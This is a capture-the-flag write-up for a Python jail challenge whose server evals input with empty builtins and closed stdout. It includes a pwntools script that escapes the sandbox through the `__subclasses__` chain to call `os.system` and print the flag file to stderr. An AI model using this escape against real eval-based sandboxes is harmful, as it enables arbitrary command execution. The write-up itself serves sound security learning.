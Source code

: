# blindnesspyjail

```
what flag? can't see it.

nc challs1.pyjail.club 19992
```

Attachment:

```python
#!/usr/local/bin/python3
import sys
inp = input('blindness > ')
sys.stdout.close()
flag = open('flag.txt').read()
eval(inp, {'__builtins__': {}, 'flag': flag})
print('bye bye')
```

Although stdout is banned, we can print flag to stderr. To handle empty builtins, we can use the traditional `().__class__.__base__.__subclasses__()` trick to find `os`:

```python
from pwn import *

context(log_level="debug")

subclasses = str(().__class__.__base__.__subclasses__())

# find the indices of the builtins
# os._wrap_close is at 159 in docker
os_index = 159
# assert subclasses.split(", ").index("<class 'os._wrap_close'>") == os_index

# p = process(["python3", "main.py"])
p = remote("challs1.pyjail.club", 19992)
p.sendline(
    f"().__class__.__base__.__subclasses__()[{os_index}].__init__.__globals__['system']('cat flag.txt 1>&2')"
)
p.interactive()
```

Flag: `jail{stderr_leak_5fd787f079eb69e}`.

